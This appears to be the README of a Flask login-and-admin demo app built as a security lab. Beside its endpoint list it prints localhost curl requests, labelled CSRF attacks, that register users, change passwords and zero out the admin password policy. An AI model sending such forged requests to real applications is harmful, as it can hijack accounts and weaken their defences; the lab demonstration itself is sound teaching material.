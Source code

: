 # Safe Register & Login Administration

__Safe mode for Demonstration.__

Build with:

__BACKEND:__ _Python 3.9 & Flask_

__FRONTEND:__ _JS, HTML & CSS_

__INTEGRATIONS:__ _Jinja2_

Deployed over Docker inorder to contain a safety lab environment

_PLEASE TAKE NOTICE:_ __runs only with Chrome & Modzilla only__ 

## Endpoints

**Home**

**User**

* Registration
* Login
* Change Password
* Logout

**Admin**

* Admin's Menu
    * View all Users List
    * Change Password Configuration

## Home

endpoint: `/`\
![Home](https://user-images.githubusercontent.com/71320956/128612948-87c16955-b0cb-451b-95ac-9ef09cde5ca4.PNG)


## User

### Register

User Register by given _Name_, _E-mail_, _Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/register`
![Register](https://user-images.githubusercontent.com/71320956/128612974-48a73d9a-335d-43ee-85d8-12c54adee72f.PNG)

__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=AAaa1212@!12' -F 're_password=AAaa1212@!12' 
http://127.0.0.1:5000/users/register
````
__Result of attack:__\
![ResultRegiser](https://user-images.githubusercontent.com/71320956/131083301-c028f6b0-aef1-4eda-a506-fea45ac57e01.png)


### Login

User Login by given _Username_ and _Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/login`

![Login](https://user-images.githubusercontent.com/71320956/131092972-cf268437-3a2d-4ba8-8897-6eb36175858d.png)
__CSRF attack on endpoint:__
````
$ curl -X POST -F 'name_email=Hacker' -F'password=AAaa1212@!12' 
http://127.0.0.1:5000/users/login
````
__Result of attack:__\
![ResultLogin](https://user-images.githubusercontent.com/71320956/131083477-de7f2399-6bdb-4a78-a9b5-997f5c92fecb.png)

### Change Password

User Change Password by given _Username_, _E-mail_, _New Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/change_password`

![ChangePassword](https://user-images.githubusercontent.com/71320956/128613009-17531174-2d74-4d45-a03c-2272917365bc.PNG)
__CSRF attack on endpoint:__
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=BBbb1212@!12' -F 're_password=BBbb1212@!12' 
http://127.0.0.1:5000/users/change_password
````
__Result of attack:__\
![ResultChangePassword](https://user-images.githubusercontent.com/71320956/131084746-01e2fa5d-c966-406f-a5be-6a1f1a1d4e51.png)

### Logout

User Logout

__methods:__ `GET`\
__endpoint:__ `/users/logout`
![AfterUserLogin](https://user-images.githubusercontent.com/71320956/128613030-143e994e-e4ed-4eb4-b8b5-2d9aa5479443.PNG)

## Admin

### Admin's Menu

__methods:__ `GET`\
__endpoint:__ `/admin/menu`

![AdminMenu](https://user-images.githubusercontent.com/71320956/128613037-286c71ef-8872-4de2-9754-b1c94eddbb96.PNG)

### User's List

Display all registered users & __Block/Unblock__ users

__methods:__ `GET`\
__endpoint:__ `/admin/all_users`

![UsersList](https://user-images.githubusercontent.com/71320956/128613054-b72342c5-5f27-47d0-b48d-fe734f4b6339.PNG)

### Password Configuration

Change password configuration:

* Length
* Complexity
* History
* Fail attempts

__methods:__ `GET`, `POST`\
__endpoint:__ `/admin/password_config`

![PasswordConfiguration](https://user-images.githubusercontent.com/71320956/128613057-39b79463-7f29-4bdc-bc55-f6d82e6c8a24.PNG)

__CSRF attack on endpoint:__
````
$ curl -X POST -F 'upper=0' -F 'lower=0' -F 'digits=0' 
-F 'spec=0' -F 'use_dict=0' -F 'length=0' -F 'history=10' 
-F 'tries=1000'  http://127.0.0.1:5000/admin/password_config
````
__Result of attack:__\
![ResultChangePassword](https://user-images.githubusercontent.com/71320956/131085277-0d0d257f-2e7e-4e15-a4d5-57a06e3adf1f.png)
